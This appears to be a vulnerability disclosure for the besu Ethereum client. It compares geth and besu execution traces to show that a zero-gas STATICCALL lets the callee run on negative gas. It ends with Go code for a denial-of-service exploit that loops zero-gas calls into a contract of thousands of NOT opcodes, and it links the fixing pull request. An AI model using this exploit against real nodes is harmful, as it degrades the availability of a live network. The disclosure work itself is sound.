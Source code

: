 Executing the test on geth `evm`: 
- it does a `staticcall( address: 0x22, gas:0, 0,0,0,0)`. 
- on `0x22`: it immediately goes out of gas, since zero was provided, 
- it returns, and the program stops. 
```
$ ~/workspace/evm --json statetest ./00002762-naivefuzz-0.json.base 
{"pc":0,"op":96,"gas":"0x79bc18","gasCost":"0x3","memSize":0,"stack":[],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":2,"op":96,"gas":"0x79bc15","gasCost":"0x3","memSize":0,"stack":["0x0"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":4,"op":96,"gas":"0x79bc12","gasCost":"0x3","memSize":0,"stack":["0x0","0x0"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":6,"op":96,"gas":"0x79bc0f","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":8,"op":96,"gas":"0x79bc0c","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0","0x0"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":10,"op":96,"gas":"0x79bc09","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22"],"depth":1,"refund":0,"opName":"PUSH1"}
{"pc":12,"op":250,"gas":"0x79bc06","gasCost":"0xa28","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22","0x0"],"depth":1,"refund":0,"opName":"STATICCALL"}
{"pc":0,"op":96,"gas":"0x0","gasCost":"0x3","memSize":0,"stack":[],"depth":2,"refund":0,"opName":"PUSH1","error":"out of gas"}
{"pc":13,"op":0,"gas":"0x79b1de","gasCost":"0x0","memSize":0,"stack":["0x0"],"depth":1,"refund":0,"opName":"STOP"}
{"output":"","gasUsed":"0xa3a","time":145782}
{"stateRoot": "2d2adfd2db2de9092194f61077cdcfd67f03599e3a839e88bb05d17d7495dd83"}
[
  {
    "name": "00002762-naivefuzz-0",
    "pass": false,
    "fork": "London",
    "error": "post state root mismatch: got 2d2adfd2db2de9092194f61077cdcfd67f03599e3a839e88bb05d17d7495dd83, want 0000000000000000000000000000000000000000000000000000000000000000"
  }
]
```

Doing the same on besu -- the `staticcall` destination contract actually executes some opcodes. Not until it reaches the `RETURN` does 
it detect that it was running on negative gas, and errors out:

```
 ~/workspace/besu-vm --json --nomemory state-test ./00002762-naivefuzz-0.json.base 
{"pc":0,"op":96,"gas":"0x79bc18","gasCost":"0x3","memSize":0,"stack":[],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":2,"op":96,"gas":"0x79bc15","gasCost":"0x3","memSize":0,"stack":["0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":4,"op":96,"gas":"0x79bc12","gasCost":"0x3","memSize":0,"stack":["0x0","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":6,"op":96,"gas":"0x79bc0f","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":8,"op":96,"gas":"0x79bc0c","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":10,"op":96,"gas":"0x79bc09","gasCost":"0x3","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22"],"returnData":"0x","depth":1,"refund":0,"opName":"PUSH1","error":""}
{"pc":12,"op":250,"gas":"0x79bc06","gasCost":"0xa28","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"STATICCALL","error":""}
{"pc":0,"op":96,"gas":"0x0","gasCost":"0x3","memSize":0,"stack":[],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":2,"op":96,"gas":"0xfffffffffffffffd","gasCost":"0x3","memSize":0,"stack":["0x20"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":4,"op":243,"gas":"0xfffffffffffffffa","gasCost":"0x3","memSize":0,"stack":["0x20","0x0"],"returnData":"0x","depth":2,"refund":0,"opName":"RETURN","error":"Out of gas"}
{"pc":13,"op":0,"gas":"0x79b1de","gasCost":"0x0","memSize":0,"stack":["0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"STOP","error":""}
{"output":"","gasUsed":"0x6022","time":43461454,"Mgps":"0.566","test":"00002762-naivefuzz-0","fork":"London","d":0,"g":0,"v":0,"postHash":"0x2d2adfd2db2de9092194f61077cdcfd67f03599e3a839e88bb05d17d7495dd83","postLogsHash":"0x1dcc4de8dec75d7aab85b567b6ccd41ad312451b948a7413f0a142fd40d49347","pass":false}

```

Since it eventually detects this (either on return on on a new forward-call), the besu stateroot becomes identical with the geth one. 
However, it should be possible to crash this, e.g. with a humongous alloc. However, it seems that the error is also detected when `MSTORE` is executed!

When trying an infinite loop, the error is also detected on the `JUMPDEST`: 
```
{"pc":0,"op":96,"gas":"0x0","gasCost":"0x3","memSize":0,"stack":[],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":2,"op":91,"gas":"0xfffffffffffffffd","gasCost":"0x1","memSize":0,"stack":["0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"JUMPDEST","error":"Out of gas"}
```
A lot of the instructions seem to trigger the detection of the error, but simple ones like `PUSH` sail right on by: 
```
{"pc":12,"op":250,"gas":"0x79bc06","gasCost":"0xa28","memSize":0,"stack":["0x0","0x0","0x0","0x0","0x22","0x0"],"returnData":"0x","depth":1,"refund":0,"opName":"STATICCALL","error":""}
{"pc":0,"op":96,"gas":"0x0","gasCost":"0x3","memSize":0,"stack":[],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":2,"op":96,"gas":"0xfffffffffffffffd","gasCost":"0x3","memSize":0,"stack":["0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":4,"op":96,"gas":"0xfffffffffffffffa","gasCost":"0x3","memSize":0,"stack":["0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":6,"op":96,"gas":"0xfffffffffffffff7","gasCost":"0x3","memSize":0,"stack":["0x1","0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":8,"op":96,"gas":"0xfffffffffffffff4","gasCost":"0x3","memSize":0,"stack":["0x1","0x1","0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":10,"op":96,"gas":"0xfffffffffffffff1","gasCost":"0x3","memSize":0,"stack":["0x1","0x1","0x1","0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"PUSH1","error":""}
{"pc":12,"op":0,"gas":"0xffffffffffffffee","gasCost":"0x0","memSize":0,"stack":["0x1","0x1","0x1","0x1","0x1","0x1"],"returnData":"0x","depth":2,"refund":0,"opName":"STOP","error":"Out of gas"}
```



---

This big switch here: https://github.com/hyperledger/besu/blob/f20b4b3bd1af09730b1e1172643d09f3691ee420/evm/src/main/java/org/hyperledger/besu/evm/EVM.java#L130 -- the ones that are 'direct' there, e.g mul, xor, push, can be used, but the others cannot. So for example `MUL` works, but `DIV` is a 'detector', triggering the detection of "we are on negative gas", and exiting the execution. 

One way to exploit this, is to fill a contract with `PUSH1 1` followed by `24K` `NOT`, and just call it in a loop (with zero gas) . Using (only) 8M gas, leads to `24s` execution time. 

Program `a`: 
```
	a := NewProgram()
	loc := a.Jumpdest()
	a.Call(big.NewInt(0), big.NewInt(0x22), big.NewInt(0), 0, 0, 0, 0)
	a.Op(ops.POP)
	a.Jump(loc)
```
calls Progam `b` at address `0x22`: 
```
	b := NewProgram()
	b.Push(0x01)
	for i := 0; i < 24570; i++ {
		b.Op(ops.NOT)
	}
```
Geth executes this in `70ms`, which is `59K` calls. In besu's case, that leads to somewhere on the order of `1351M` instructions performed on `8M gas`. 


--- 

Fixed by https://github.com/hyperledger/besu/pull/4756
